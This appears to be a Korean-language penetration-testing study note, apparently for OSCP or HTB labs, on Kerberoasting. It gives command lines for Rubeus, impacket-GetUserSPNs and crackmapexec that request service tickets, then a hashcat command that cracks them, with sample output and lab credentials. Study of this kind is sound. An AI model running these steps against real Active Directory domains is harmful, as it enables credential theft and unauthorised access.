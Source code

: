 우선, 특정 유저의 계정 정보를 알고 있는 상태이다(Post Exploit). 이후 hashcat으로(TGS-REP, **13100**) SPN의 비밀번호를 크랙하는 것.

### hashcat
```powershell
sudo hashcat -m 13100 mrlky.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

커버로스팅은
→ **Rubeus.exe** (win) 으로
→ **impacket-GetUserSPNs** (kali) 로
→ **crackmapexec (kali)** 로
가능하다.

### Rubeus.exe
```powershell
.\\Rubeus.exe kerberoast /outfile:hashes.kerberoast
#...
#[*] Total kerberoastable users : 1
#...
#[*] Hash written to C:\\Tools\\hashes.kerberoast

.\\Rubeus.exe kerberoast /creduser:htb.local\\amanda /credpassword:Ashare1972 /outfile:hashes.ker
#...
#[*] Total kerberoastable users : 1
#...
#[*] Hash written to C:\\Tools\\hashes.ker
```

### impacket-GetUserSPNs
```powershell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
#...
#Password:
#...
#[-] CCache file is not found. Skipping...
#$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```

출력 저장 시,
```python
sudo impacket-GetUserSPNs -request -dc-ip 10.10.158.146 -outputfile kerberoast.hash oscp.exam/web_svc
```

### crackmapexec
```powershell
cme ldap 192.168.48.130 -u lora.amy -p 'Password123!' -d choi.local --kerberoasting kerberoasting.txt
```

